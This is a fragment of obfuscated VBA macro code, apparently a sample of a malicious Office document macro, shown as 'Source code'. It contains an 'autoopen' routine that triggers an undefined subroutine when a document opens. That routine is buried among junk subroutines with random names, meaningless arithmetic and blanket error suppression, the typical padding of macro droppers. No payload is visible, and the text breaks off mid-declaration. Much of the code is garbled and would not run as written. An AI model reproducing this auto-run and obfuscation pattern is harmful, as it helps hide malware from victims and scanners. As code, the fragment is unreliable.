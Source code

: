 ```vb
Sub FMGAn24cV()
   On Error Resume Next
   Select Case cFmIw
      Case 8059
         wUhL25 = 2636
         GpzXy = Jlzd789p
         UWiZ = 482
      Case 6364
         HfiuK0K8 = XiLc
         shtE = Round(RQUnj832I + ChrB(tGjztO8))
         huYs7195 = Int(252065587 * 127 * 204048515 + CLng(IBL))
      Case 46
         IKWt3M788 = Fix(cTuwVw8 * CByte(BLux6x4G / Tan(29285969)) * 709 * zDNle7)
         YwAYF = odu
         CZk = CStr(278725002)
   End Select
   Set xjQY96L = 3
End Sub
 Sub vgYJ(kHiis167)
   On Error Resume Next
   Dim jfjyp146z()
   ReDim jfjyp146z(2)
   jfjyp146z(0) = 441
   jfjyp146z(1) = 14
   yYzpN2 = (GMOz7Gjx / CDate(XIsh) * XKEimT1 + 7391 * (9 - CStr(15 * CStr(1)) * 204179029 / Round(SIi)))
   sVS = tRTKlgHp - 147619628
End Sub

Sub autoopen()
ukWWdsK
End Sub
Sub FHjEj(LAcQVZ87)
   On Error Resume Next
   Do
      Dim lJeuDE96, nqrjpo6
      neGow086 = 4163
      AkQCgA = 294325181 - 51502176
   Loop Until bwvS69z8z >= 13
   Do While JKyP8pxto Eqv 10
      For Each ZJyu In NBZq5Y
         oYwx = UlaI61M1 / fph * 498373131 / vrGbz * (86 * CDate(4003) * (93 + Int(Lyrs) / 28188549 - ChrW(hlpn60H)))
      Next
      Set vRSb9W = 3
      Select Case tJBR
         Case 407850943
            jaum6Cn = ChrB(3641 * Hex(EzHUi2E))
            NCskA = CjuvT
            rSZ = CBool(Act)
         Case 1
            crvr = 368
            xgQY = ocXUh23
            QXvYq42qV = xzak9Z2
         Case 513122720
            vLZp = ChrB(233198461)
            eObu66H03 = 8
            vxQ = 385391781
      End Select
      Set ZWbLW1X89 = DzyG
   Loop
End Sub
 Sub sSYfU0(SpsW4rP)
```